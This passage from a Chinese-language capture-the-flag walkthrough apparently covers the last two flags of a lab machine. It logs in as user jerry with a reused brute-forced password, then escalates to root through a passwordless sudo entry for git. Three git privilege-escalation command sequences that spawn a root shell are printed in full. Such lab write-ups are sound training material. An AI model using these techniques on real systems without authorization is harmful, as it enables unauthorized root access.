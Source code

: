 ### flag4
　　接下来就切换到jerry用户，而tom的ssh密码和web登陆是一样的，所以这里的jerry的ssh密码可以尝试使用前面已经爆破出来的adipiscing
　　输入`su jerry` 密码:adipiscing，成功登陆后，查看到flag4
　　<img src="https://s1.ax1x.com/2020/10/31/BatDEQ.png">
　　提示用git提权到root
　　`sudo -l` 查询root权限，可看到/usr/bin/git是root权限执行，并且不需要密码
　　<img src="https://s1.ax1x.com/2020/10/31/Bat7CR.png">

### flag5
　　那么接下来就是提权了，git提权参考文章https://gtfobins.github.io/gtfobins/git/
　　1.第一种

```shell
sudo git help config
!/bin/bash
```
　　2.第二种
```shell
sudo git branch --help config
!/bin/bash
```
　　3.第三种
```shell
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF" x
!/bin/bash
```
　　这里演示第一种，输入`sudo git help config`后，会强行分页显示
　　<img src="https://s1.ax1x.com/2020/10/31/BaNQx0.png">
　　继续输入`!/bin/bash`回车
　　<img src="https://s1.ax1x.com/2020/10/31/BaNBM6.png">
　　提权成功并在root目录下查看到最终flag
　　<img src="https://s1.ax1x.com/2020/10/31/BaNcIH.png">